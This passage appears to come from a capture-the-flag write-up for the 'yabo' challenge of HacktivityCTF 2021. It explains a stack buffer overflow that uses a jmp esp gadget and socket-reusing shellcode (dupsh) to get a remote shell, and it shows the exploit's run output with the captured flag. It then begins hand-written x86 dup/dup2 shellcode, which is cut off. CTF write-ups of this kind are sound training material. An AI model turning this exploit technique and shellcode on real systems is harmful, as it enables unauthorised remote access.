 So what does `dupsh` do?  Well it will duplicate FDs so that any read/write to
FD's `0`, `1`, `2` will happen over FD `4` and thus over the network.  Boom!
Shell.

Continuing down, the next line just prints the length of the shellcode, this
is good practice for space constrained challenges (not a problem here).

Then we need to find the address of `jmp esp`.  Since no PIE, no leak
required.

The payload is pretty simple, overflow the buffer to get to the return address
(hint `local_414`), then our one line ROP chain of `jmp esp` to jump to the
stack and then our shellcode on the stack.

Next is a check for NULLs, if there is a NULL in the payload, it'll bomb out
with a disassembly so you can inspect your code.

Lastly we send the payload and get a shell.

Output:

```bash  
# ./exploit3.py REMOTE=1  
[*] '/pwd/datajerk/hacktivityctf2021/yabo/yabo'  
   Arch:     i386-32-little  
   RELRO:    No RELRO  
   Stack:    No canary found  
   NX:       NX disabled  
   PIE:      No PIE (0x8048000)  
   RWX:      Has RWX segments  
[+] Opening connection to challenge.ctf.games on port 32332: Done  
[*] len(shellcode): 58  
[*] Switching to interactive mode  
$ cat flag.txt  
flag{2f20f16416a066ca5d4247a438403f21}  
```

### Solution 2

This was my second solution, and it is functionally identical to the one
above, however I didn't know about `shellcraft.dupsh(4)`.  This will help
understand what is really going on and unlike `dupsh(4)`, the FD does not need
to be known; the code can figure it out.

```python  
from binascii import hexlify

arg0 = b'/bin/sh'

# props: http://shell-storm.org/shellcode/files/shellcode-881.php  
shellcode = asm(f'''  
/* dup(2) to get next fd, then dec for current */

push 2  
pop ebx  
push {constants.SYS_dup}  
pop eax  
int 0x80  
dec eax                                                 # should be current fd  
mov ebx, eax                                            # put in ebx for dup2

/* dup2(fd,0); dup2(fd,1); dup2(fd,2); */

xor ecx, ecx  
push {constants.SYS_dup2}  
pop eax  
int 0x80  
inc ecx  
```